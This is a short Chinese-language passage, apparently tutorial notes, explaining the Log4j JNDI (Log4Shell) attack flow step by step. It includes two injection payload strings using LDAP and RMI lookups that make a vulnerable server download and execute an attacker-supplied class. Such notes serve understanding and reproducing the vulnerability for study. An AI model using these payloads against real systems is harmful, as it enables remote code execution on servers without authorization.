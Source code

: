 <img src="漏洞利用\log4j (4).png" alt="log4j (4)" style="zoom:61%;" />

**攻击流程**

![log4j (5)](漏洞利用\log4j (5).png)

1.攻击伪装一个请求体，里面含有JNDI可执行的服务, 主要是LDAP与RMI两种协议，请求URL如下。

```
 ${jndi:ldap://127.0.0.1:1389/Exploit}

 ${jndi:rmi://127.0.0.1:1389/Exploit}
```

2.在应用程序恰巧输出了请求头或者入参的log日志时,就会触发此URL的请求，并主动请求了攻击者准备的LADP/RMI服务。

3.利用LADP/RMI的特性，伪装返回值，含有要执行的恶意Class文件地址，与Class类名。

4.被攻击的服务器找不到对应Class文件就会触发JNDI的机制从远程服务器中下载Class。

5.用我们事先准备好的web服务给被攻击服务器提供可执行Class文件下载，被攻击服务器拿到到Class文件后会触发反序列化执行代码，达到了远程执行代码的目的漏洞复现。
